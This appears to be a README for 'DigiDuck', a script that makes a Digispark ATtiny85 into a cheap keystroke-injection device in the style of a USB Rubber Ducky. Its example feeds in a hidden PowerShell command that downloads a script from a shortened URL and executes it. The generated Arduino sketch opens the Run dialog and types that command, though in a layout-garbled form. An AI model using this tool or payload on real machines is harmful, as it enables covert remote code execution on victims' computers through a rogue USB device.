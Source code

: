 # Digispark ATtiny85 as a Cheap "USB Rubber Ducky"

##Usage
    $ python DigiDuck.py
    Enter command to execute: [COMMAND]
  
##Example

    $ python DigiDuck.py
    Enter command to execute: powershell -window hidden IEX (New-Object System.Net.Webclient).DownloadString('https://tinyurl.com/z766ych')
    Attack.ino file created successfully!

##Output

```    
#define KEY_DELETE 76

  void setup() {
  DigiKeyboard.update();
}

void loop() {
  delay(100);
  DigiKeyboard.update();
  delay(100);
  
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  delay(100);
  DigiKeyboard.sendKeyStroke(KEY_DELETE);
  delay(50);
  DigiKeyboard.println("powershell /window hidden IEX *New/Object System.Net.Webclient(.DownloadString*-https>&&tinyurl.com&z766ych-(");
  delay(900000);
}
```

